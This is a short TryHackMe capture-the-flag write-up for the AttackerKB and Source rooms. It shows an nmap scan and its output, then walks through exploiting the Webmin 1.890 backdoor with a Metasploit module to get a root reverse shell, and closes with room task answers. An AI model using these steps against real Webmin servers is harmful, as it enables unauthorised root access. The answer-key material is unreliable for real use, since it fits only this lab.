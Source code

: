 ```yaml
---
layout: post
title: AttackerKB & Source | Writeup
categories: hello
author: ThelastVvV
date: '2020-03-11 18:42:53 +0800'
tags:
  - test
  - hello
published: true
---
```


 Hallå gubbar , Today i will show you how easy this boxes are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &  [Source](https://tryhackme.com/room/source).
 
### 1 - Enumeration
### 2 - Exploitation
### 3-  Reverse shell
### 4-AttackerKB Tasks


### 1 - Enumerationnmap scan :

> nmap -T4 -A -v -Pn Box-ip

Results:



> PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| 256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_ 256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open http MiniServ 1.890 (Webmin httpd)


### 2 - Exploitation
Source and AttackerKB:

One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit


[https://github.com/rapid7/metasploit-framework/pull/12219]()


using this command:




> msfconsole

then search "the exploit name or version"





then choose > unix/webapp/webmin_backdoor








> RHOSTS : Box-ip
RPORT: Box-port
LHOST: Your-ip
SSL : 1


### 3- Reverse shell


volia session opened we are root so let check the hints and hunt the flags

User Flag:




Root Flag:



### 4-AttackerKB Tasks:

Task 2 -Discovering the Lay of the Land :

From Nmap results we can find all our answers .....

Answers: 



#2-Webmin
#3-1.890
#4- from cert bellow figure it out

### Task 3 - learning to fly:
Just explore Attackerkb then we will be able to answer the following "important to copy directly from Attackerkb site 
Answers: 

#3 1.890 
#4 supply chain 
#5 aug172019 
#6 githubfileinthetitle



See you next time .....
